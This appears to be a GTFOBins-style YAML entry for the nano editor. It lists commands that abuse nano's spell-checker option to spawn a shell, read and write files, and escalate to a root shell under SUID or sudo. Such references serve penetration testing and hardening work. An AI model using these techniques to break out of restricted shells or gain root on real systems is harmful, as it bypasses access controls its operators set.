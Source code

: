 ```yaml
---
name: nano
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        nano -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        nano file_to_write
        DATA
        ^O
  file-read:
    - code: nano file_to_read
  suid:
    - code: |
        TF=$(mktemp)
        echo 'exec sh -p' > $TF
        chmod +x $TF
        ./nano -s $TF /etc/hosts
        ^T
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        sudo nano -s $TF /etc/hosts
        ^T
---
```

